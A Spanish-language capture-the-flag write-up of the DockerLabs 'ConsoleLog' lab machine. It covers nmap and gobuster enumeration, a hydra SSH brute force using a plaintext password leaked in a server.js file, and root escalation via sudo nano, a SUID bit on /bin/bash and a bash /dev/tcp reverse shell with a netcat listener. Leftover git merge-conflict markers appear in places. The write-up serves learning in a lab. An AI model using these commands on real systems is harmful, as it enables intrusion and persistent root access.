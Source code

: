 # Console Log

En esta lectura se documentara el paso a paso para resolver la maquina ConsoleLog de la plataforma DockerLabs

![image.png](Console%20Log/image.png)

**Descargamos y desplegamos :** 

![image.png](Console%20Log/image%201.png)

Con ping comprobamos que la misma esta activa, el TTL de 64 nos indica que es una maquina Linux : 

![image.png](Console%20Log/image%202.png)

## Enumeración

Realizamos un escaneo con Nmap utilizando un Syn Scan, el cual es más rápido y discreto en entornos reales debido a que no completa el saludo de tres vías. Esto nos permite detectar puertos abiertos de manera eficiente sin establecer conexiones completas, reduciendo así la probabilidad de ser detectados.

```bash
nmap -sS -p- --open -Pn -n --min-rate=5000 172.17.0.2
```

Encontramos abiertos los siguientes puertos : 

![image.png](Console%20Log/image%203.png)

Realizamos un nuevo escaneo con Nmap, esta vez enfocado únicamente en los puertos abiertos y utilizando el parámetro `-A`. Este parámetro ejecuta un conjunto de scripts de Nmap que permite identificar las versiones de los servicios y del sistema operativo en ejecución.

```bash
nmap -A -p 80,3000,5000 -Pn -n 172.17.0.2
```

![image.png](Console%20Log/image%204.png)
=======
![image.png](Console%20Log/image%204.png)

Notamos que los primeros son dos paginas web http y el ultimo es ssh pero en un puerto no estándar

Consultamos a la herramienta **`whatweb`** para ver con que tecnologías esta diseñada la web.

```bash
whatweb http::172.17.0.2
```

![image.png](Console%20Log/image%205.png)
=======
![image.png](Console%20Log/image%205.png)
>>>>>>> d081d6e81c78923b66e2fddcb1645c5d39142d88:DockerLabs/ConsoleLog/Console Log .md

Vamos a ingresar al puerto 80 haber que encontramos : 

![image.png](Console%20Log/image%206.png)

## Explotación

Al ver el código fuente de este sitio, descubrimos un archivo “js” con un token, lo que podría tratarse de una vulnerabilidad a mitigar o informar si esto fuese un caso real al tratarse de data sensible expuesta.

![image.png](Console%20Log/image%207.png)

Al revisar este archivo vemos la siguiente información que nos podría llegar a ser útil, por lo que la guardaremos.

![image.png](Console%20Log/image%208.png)

Ingresamos al segundo puerto abierto para visualizar su contenido pero de momento no es posible acceder:

![image.png](Console%20Log/image%209.png)

Al hacer fuzzing encontramos el directorio backend con archivos útiles. Para esto use la herramienta `gobuster`.

**Gobuster** es una herramienta de fuerza bruta utilizada para descubrir directorios, archivos, subdominios, y hosts virtuales ocultos en un servidor web. Funciona utilizando una lista de palabras (wordlist) para realizar solicitudes repetidas al servidor, lo que permite identificar recursos no visibles o no indexados.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![image.png](Console%20Log/image%2010.png)

De estos directorios encontrados con ese diccionario vamos a revisar `/backend` que parece el mas interesante.

![image.png](Console%20Log/image%2011.png)

Encontramos este server.js que me da mucha curiosidad…

![image.png](Console%20Log/image%2012.png)

esa contraseña en texto plano ahí ubicada es muy rara, tenemos un puerto con ssh abierto por lo que vamos a intentar averiguar con hydra si algún usuario la esta utilizando :

```bash
hydra -L /usr/share/wordlists/rockyou.txt -p password ssh://172.17.0.2:5000 -t 64
```

![image.png](Console%20Log%20/image%2013.png)
=======
![image.png](Console%20Log/image%2013.png)
Encontramos al usuario lovely con la contraseña conseguida porque estaba expuesta en texto plano, por lo que nos conectamos mediante ssh al puerto indicado en el escaneo.

```bash
ssh lovely@172.17.0.2 -p 5000
```

![image.png](Console%20Log/image%2014.png)

## Post - explotación / Escalada de privilegios

Realizamos la escalada privilegios, vamos a enumerar los permisos de sudo que tiene el usuario actual, esto lo hacemos con `sudo -l`
El comando `sudo -l` se utiliza para listar los privilegios de `sudo` que tiene el usuario actual.

![image.png](Console%20Log/image%2015.png)

Descubrimos que tiene permisos de sudo para nano por lo que vamos a buscar el en sitio “[https://gtfobins.github.io/](https://gtfobins.github.io/)” si hay una manera de escalar a root con nano.

![image.png](Console%20Log/image%2016.png)

Encontramos esta manera que al ejecutarla nos permite ejecutar comandos como root pero de una manera un poco incomoda…

![image.png](Console%20Log/image%2017.png)

Una vez obtenida de esta manera una consola inestable de root tenemos dos opciones: 

La primera cambiarle los permiso a la bash con **`chmod u+s /bin/bash`**para que
 establecer el bit SUID (Set User ID) en el archivo `/bin/bash`. Esto sirve para que ue cuando cualquier usuario ejecuta el archivo `/bin/bash`, el proceso que se crea tiene los privilegios del propietario del archivo, que en este caso es típicamente el usuario root. Así, cualquier usuario que ejecute `/bin/bash` obtendría una shell con privilegios de root.

![image.png](Console%20Log/image%2018.png)

![image.png](Console%20Log/image%2019.png)

La segunda es mandar una **shell** reversa a un puerto de nuestra maquina atacante y ponernos en escucha con netcat a dicho puerto.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.0.203/444 0>&1'
```

![image.png](Console%20Log/image%2020.png)

Desde nuestra maquina atacante usamos

```bash
nc -nlvp 444
```

**Esta es otra alternativa  pero se considera mas estable la primera.**

![image.png](Console%20Log/image%2021.png)

**PWNED**!!!

<aside>
💡 Muchas gracias por leer, este es mi primer WriteUp para la plataforma DockerLabs, estaré subiendo mas en estos días, mientras busco seguir aprendiendo.

</aside>

**Saludos!!!**
